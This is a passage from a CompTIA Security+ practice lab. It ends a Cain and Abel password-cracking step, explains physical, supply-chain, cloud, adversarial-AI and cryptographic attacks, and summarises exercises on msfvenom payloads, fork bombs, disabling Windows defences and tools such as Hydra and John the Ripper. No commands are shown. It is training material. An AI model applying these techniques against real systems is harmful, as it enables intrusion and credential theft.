indicates the amount of time it could take to crack a password with the
specifications you set. It depends on the value defined in the Max
drop-down and the Charset that you chose. The more combinations you
provide in the charset, the more time it will take to use the
combinations and crack the password.
Click Stop.
Figure 4.27 Screenshot of PLABWIN10: Showing the time it is going to take to crack the hash and clicking Stop.
Step 11
Click Exit.
Figure 4.28 Screenshot of PLABWIN10: Clicking Exit on the Brute-Force Attack dialog box.
Step 12
You are back on the Cain window.
Figure 4.29 Screenshot of PLABWIN10: Showing the Cain window.
Close all open windows.
8e3a53c2-5124-4b1b-b753-d15e9fb7e05a
Keep all devices in their current state and proceed to the next exercise.
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 5 - Explaining Physical and Other Attacks
As well as logical attacks (such as password or
network attacks), there are physical methods that can be used by
attackers. This means gaining physical access to the system. For
example, plugging in a malware-infected USB drive into a laptop or
stealing the laptop itself.
However, most antivirus or antimalware applications
automatically scan a USB when you plug it in. Therefore, attackers are
coming up with new methods such as malicious USB cables.
In this exercise, you will learn about physical attacks.
Learning Outcomes
After completing this exercise, you should have further knowledge of:
- Malicious Universal Serial Bus (USB) Cable
- Malicious Flash Drive
- Card Cloning/Skimming
- Adversarial Artificial Intelligence (AI)
- Supply-chain Attacks
- Cloud-based vs. On-premise Attacks
- Cryptographic Attacks
Your Devices
This exercise contains supporting materials for Security+.

Malicious Universal Serial Bus (USB) Cable
A malicious USB cable can be programmed using a chip
that allows the attacker to control it. A user cannot determine whether
the cable is malicious or not just by looking at it, which results in
them plugging in the cable and giving the attacker control.
The attacker can program the malicious USB cable to connect to:
- A mobile device
- A cellular hotspot
- A wireless network
When the malicious USB cable is plugged in, the
attacker can gain control of the mouse and keyboard. Furthermore,
malicious USB cables can also be equipped with a GPS tracker.
The malicious USB cables works with the following operating systems:
Malicious Flash Drive
Even though a large number of users have started to
move their data to the cloud for backup purposes, USB flash drives
remain a key method for offline backups.
There are several types of attacks that can be conducted on flash drives:
- Reprogrammable microcontroller USB attacks
- Reprogrammed USB peripherals
- Software on the USB device
- Electrical attack
The most common attack is the software on a USB
device. When a malicious USB drive is plugged into a system, the
software triggers and infects it.
If the attacker wants to destroy a system entirely,
it might even trigger a high voltage attack. The USB used to conduct
such an attack carries an electronic circuit that can send a high
voltage current to the system, eventually burning it.
The malware used will change depending on the
attacker’s intentions. A USB can be used to drop or install some of the
key malware types, such as:
- Backdoors
- Trojans
- Keyloggers
- Worms
Malicious USBs are available for attacker’s to
purchase on the black market, meaning that the biggest challenge is not
always creating them, it is sometimes harder to get the USBs to the
users/targets. The attacker may simply drop the USB in a parking lot or
office to be picked up by a random user. USBs may also be sent as a gift
for a convention that the user attended. Individuals can also be
specifically targeted in this way.
Card Cloning/Skimming
Previously, credit or debit cards needed to be
physically stolen or swiped for an attacker to access it. However, as
technology has advanced, the new method of card cloning (or skimming)
was discovered.
Initially, credit and debit cards had a magnetic
strip that stored the card’s encrypted information. When a card was
swiped, its information could be captured either using software or a
hardware device. Once the information was captured and stored in the
memory, it was transferred to a new card, creating a copy of the
original. This meant that the new card could also be used to make
transactions. A card cloner or card skimmer can be placed in an ATM or
any system that accepts a debit or credit card. However, the newer debit
or credit cards have a chip that cannot be cloned or skimmed.
Adversarial Artificial Intelligence (AI)
Artificial Intelligence (AI) is a method to simulate
human intelligence in computers or systems. The intent is to make the
systems think like humans to achieve a specific goal based on a given
problem or data set. For example, a self-driving car or a computer
playing chess against a human.
Machine Learning (ML) is a subset of AI. Where AI
focuses on the broad idea of making a system execute a task, ML focuses
on the idea of making the systems learn through experiences. ML requires
data input that is used to learn a specific pattern. AI uses ML to
solve specific problems.
Tainted Training Data For ML
ML requires input data, which must be clean and
contain no errors. ML also learns through previous experiences. For
example, ML may be playing a board game or navigating roads based on its
learning experience, which comes through the input data, known as
training data.
The training data needs to be clean and accurate for
ML to gain experience. However, an attacker can infect the training data
or modify it to the extent that the ML gains the wrong learning
experience.
For example, if the learning experience is based on
tainted or corrupt data in a self-driving car, the results could be
devastating. For example, not stopping at red lights.
Security of ML Algorithms
The role of algorithms is important in ML.
Essentially, it is what the ML runs on. Depending on what you want to
achieve with ML, you may have to use a specific algorithm type.
For the security of the ML algorithms, the input data
must be clean and accurate. With tainted data, the ML algorithms may
end up with the wrong interpretations and wrong learning. Along with
this, an attacker may also simply change the logic of the algorithm. For
example, if your algorithm uses several if-else statements, making a
few changes to these statements harms the algorithm.
Supply-chain Attacks
If an organization’s network extends itself with the
vendors’ and third-party’s networks, then the attack surface is much
larger. Your network may be highly secured, but this may not be the case
with the vendors and third-party entities.
Research in 2018 by the Ponemon Institute concluded
that 56% of organizations that suffered an attack was due to their
third-party entities and vendors. Target is a famous example of such an
attack. One of the HVAC vendor’s systems was infected with malware,
which eventually drilled into Target’s network. The end result for
Target was a major security breach with millions of credit and debit
card numbers and data stolen. This also resulted in lawsuits.
Often, vendors of an organization, such as hardware
supplier, do not have sufficient security controls. Their systems are
not checked for security when they connect to the organization’s
network, and may not even have an antivirus or antimalware installed to
catch malware in real-time. Therefore, when these systems connect to the
organization’s network, they can become the weakest link the security.
Cloud-based vs. On-premise Attacks
Cloud-based and on-premise system security risks are directly proportionate to the security applied to them.
Cloud systems have some security advantages, for
example, subscriptions to them often include a variety of security
controls you can use to protect your data. However, data privacy can be a
major concern. You do not always know who is handling the data and
whether they are mishandling it at all.
With on-premise systems, you have a lot more control
over your data, but the cost of implementing security controls is
higher. You have to purchase your own software and hardware to protect
your network.
It is also important to note that the same set of
applications that work on the on-premise system can also work in the
cloud environment. The functionalities of on-premise applications do not
differ when you deploy them in the cloud environment. When you deploy
such an application in the cloud, it would have the same vulnerability
in the cloud environment. Therefore, a vulnerability in an application
can be exploited, whether installed in the cloud or on-premise
environment.
A cloud environment can be prone to attacks, such as a
shared infrastructure failure (known as a guest-hopping attack),
malicious insider, cookie poisoning in a Software As A Service (SaaS)
environment, malware injection attack, or an end-user attack to steal
the user’s identity.
Cryptographic Attacks
A cryptographic attack is conducted on a
cryptographic algorithm that has been implemented on an application or
service. However, the developers may not be well-versed in the strengths
and weaknesses of cryptographic algorithms. A developer may choose a
cryptographic algorithm that is easier to implement, as many are complex
in nature and more difficult to implement. Therefore, developers often
take the shortcut of using algorithms that are easy to implement.
Let’s look at some of the cryptographic attacks.
Birthday and Collision
A birthday attack is about finding the probability of
finding collisions in hash functions. In the birthday problem, there is
a high probability that it is 50 percent possible that 23 people in a
group have birthdays on the same day. Using the birthday attack, an
attacker can find a hash functions of a text string or a message. Then,
the attacker can modify or alter the communication between two entities
using the collision attack.
In the collision attack, you find the probability of
one finding a digitally signed message and replace it with another
message that contains the same hash. For example, an attacker may find
two messages or two strings of text that have the same hash output. Out
of two, if a user expects the first message, the attacker may send the
second message with the same hash and cause a collision of the hash
function, which refers to the two messages or strings of text having the
same hash.
Downgrade
Most Websites would deploy the Secure Socket Layer/
Transport Layer Security (SSL/TLS) certificates to ensure encryption
between the Web browser and the Web server. With the SSL/TLS encryption,
a strong encryption form is deployed to safeguard data transmission
between the two. When conducting a downgrade attack, the attacker
enables the backward compatibility with lower-level security in the
system and then exploit the systems. For example, if the security level
of a web browser is set to high, the attacker can lower the security
level to minimum and conduct the downgrade attack.
7429868b-128c-4069-95a9-7246a6a9e5a3
d31298f5-3011-4089-bf06-fbf08c44a7f9
Keep all devices that you have powered on in their current state and proceed to the review section.
Review
Well done, you have completed the Identifying Different Cyber Attacks Practice Lab.
c6e74811-6d1f-4779-94c2-34fcca239022
ed2960dc-0376-446a-bac0-4f56d8c4214d
d2c83612-7648-4fd6-8c34-da7bb1fae95d
87f9a02a-96a9-4e8a-adb5-ccabcf9efa7d
df20612c-00ca-45d2-a203-343f9ead4133
09f7d58c-d325-4f70-9411-126ffa4e37a9
aaaaaaaa-1111-1111-1111-193f35a24fe3
Summary
You completed the following exercises:
- Exercise 1 - Knowing Malware
- Exercise 2 - Creating Standalone Payloads with Msfvenom
- Exercise 3 - Performing Online Password Attacks
- Exercise 4 - Performing Offline Password Attacks
- Exercise 5 - Explaining Physical and Other Attacks
You should now be able to:
- Create a Fork Bomb as a Simple Virus
- Switch Off the Windows Firewall on PLABWIN10
- Turn off the Windows Defender Real-time Protection
- Creating a Payload
- Share the Payload with the Victim
- Use the Multi/handler Module and Exploit the System
- Using Wordlists
- Create a User Account in FTP
- Using Hydra to Guess Usernames and Passwords
- Crack Linux Passwords using John the Ripper
- Use ncrack in Kali Linux
- Generate Rainbow Tables
- Recover Windows Hashes using Cain and Abel
You should now have further knowledge of:
- Malware
- Types of Malware
- Spraying
- Plaintext/Unencrypted
- Malicious Universal Serial Bus (USB) Cable
- Malicious Flash Drive
- Card Cloning / Skimming
- Adversarial Artificial Intelligence (AI)
- Supply-chain Attacks
- Cloud-based vs. On-premise Attacks
- Cryptographic Attacks
Feedback
067744a4-4299-4662-b5be-04dbb636a007
Shutdown all virtual machines used in this lab. Alternatively, you can log out of the lab platform.